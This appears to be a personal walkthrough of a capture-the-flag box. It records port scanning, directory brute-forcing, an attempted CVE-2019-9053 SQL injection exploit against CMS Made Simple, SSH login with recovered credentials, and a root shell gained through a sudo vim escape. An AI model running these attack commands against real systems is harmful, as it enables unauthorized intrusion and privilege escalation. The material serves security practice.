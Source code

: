 commands used:

nmap -p- --min-rate 5000 -sV target -oN nmap.txt

21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

gobuster 
/simple

CMS Made Simple 2.2.8 - cve-2019-9053

convert python2 format (just the print functions) to pyhton3

./exploit.py -u target/simple --crack -w seclist/passwords/common-credentials/best110.txt

None of the cve-2019-9053 exploit worked, looked up a write up
username - mitch
password - secret

ssh -p 2222 mitch@target

sudo -l
(root) NOPASSWD: /usr/bin/vim

sudo vim -c ':!/bin/sh'

